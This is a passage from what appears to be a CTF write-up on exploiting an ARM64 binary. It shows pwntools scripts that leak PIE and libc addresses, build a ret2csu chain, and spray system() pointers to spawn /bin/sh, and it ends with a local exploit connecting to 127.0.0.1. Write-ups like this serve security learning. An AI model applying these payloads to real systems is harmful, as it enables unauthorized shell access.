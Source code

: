 ```python

io.interactive()
```

And result:

![](https://i.imgur.com/Ge6WNsy.png)

## Get Shell

Now with a libc leak we can call any gadgets within libc. Unfortunetly `one_gadget` lets us down again and manually looking through the provided libc was unable to find any one shot gadgets.

Using the same ret2csu method, we can call `system("/bin/sh")`

However in this case, the leaked stack address may not align correctly so I spam my input with a ton of function pointers to libc system so hopefully the leaked stack pointer falls in that sled.

```python
call_system  = b""
call_system += b"A"*0x47 #junk
call_system += p64(csu_popper)
call_system += b"RONDO___" # x29
call_system += p64(csu_caller) #x30
call_system += p64(0) #x19
call_system += p64(0) #x20
call_system += p64(stack_leak) #x21 call*
call_system += p64(next(libc.search(b"/bin/sh")))# x22 x0
call_system += p64(0) # x23 x1
call_system += p64(0) # x24 x2
call_system += p64(libc.symbols['system'])*0x20

io.clean()
io.sendline(call_system)
```

And the result:

![](https://i.imgur.com/cEiZ9JH.png)


# Local Exploit

The full local exploit:

```python
from pwn import *
context.binary = elf = ELF("./vuln")
libc = ELF("./lib/libc.so.6")

io = remote("127.0.0.1",1337)

name = b"A"*8
io.sendlineafter(b"name: ",name)
io.readuntil(name)
pie_leak = u64(io.readuntil("\n; send",drop=True).ljust(8,b"\x00")) - 2058
print("PIE: " + hex(pie_leak))
elf.address = pie_leak

message  = b"A"*0x20
message += b"B"*8
message += p64(elf.symbols['vuln']+0x18)
io.sendlineafter(b"message now: ",message)

io.clean()
```